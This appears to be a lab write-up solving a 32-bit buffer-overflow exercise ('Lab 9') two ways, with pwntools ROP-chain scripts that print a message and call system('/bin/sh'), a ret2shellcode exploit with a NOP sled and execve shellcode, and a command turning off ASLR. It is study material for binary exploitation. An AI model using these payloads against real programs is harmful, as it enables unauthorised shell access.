 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**

![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue
& will print "I did it!"

`solver.py`
```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d66000
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

I_addr = libc_base + next(libc.search(b'I'))
d_addr = libc_base + next(libc.search(b'd'))
i_addr = libc_base + next(libc.search(b'i'))
#t_addr = libc_base + next(libc.search(b't'))
t_addr = libc_base + next(libc.search(b'T'))

exclamation_addr = libc_base + next(libc.search(b'!'))

format_string = libc_base + next(libc.search(b'%s'))

rop = ROP(binary)

rop.call("printf", [format_string, I_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, t_addr])
rop.call("printf", [format_string, exclamation_addr])

rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit

sys.stdout.buffer.write(payload)
```

`solver2.py`

```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d66000
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

I_addr = libc_base + next(libc.search(b'I'))
d_addr = libc_base + next(libc.search(b'd'))
i_addr = libc_base + next(libc.search(b'i'))
t_addr = 0xf7d7e546  # Updated address for 't'
exclamation_addr = libc_base + next(libc.search(b'!'))

format_string = libc_base + next(libc.search(b'%s'))

rop = ROP(binary)

# Print each character in one line without newlines
rop.call("printf", [format_string, I_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, t_addr])
rop.call("printf", [format_string, exclamation_addr])

# Move to the next line after the message
rop.call("printf", [format_string, libc_base + next(libc.search(b'\n'))])

# Call system to spawn a shell
rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit

sys.stdout.buffer.write(payload)
```


```
./lab9 $(python3 solver.py)
```

![image](https://gist.github.com/user-attachments/assets/1c6f15b4-93d0-4cca-8da3-c1af28b58b22)








## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)


### GG We did it

![image](https://github.com/user-attachments/assets/ad93791e-fc88-4fe8-8f8a-9eae462643ab)

